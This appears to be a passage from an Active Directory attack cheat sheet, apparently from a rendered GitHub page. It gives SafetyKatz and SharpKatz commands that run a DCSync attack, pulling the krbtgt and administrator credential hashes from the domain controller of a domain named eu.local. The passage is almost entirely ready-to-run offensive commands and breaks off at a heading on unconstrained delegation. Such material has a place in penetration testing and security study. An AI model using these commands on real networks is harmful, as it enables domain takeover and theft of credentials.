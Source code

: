 Abuse the TGS to LDAP:

```
SafetyKatz.exe '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```

OR

```
SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --
DomainController eu-dc.eu.local

SharpKatz.exe --Command dcsync --User eu\administrator --Domain
eu.local --DomainController eu-dc.eu.local
```

#### Unconstrained Delegation


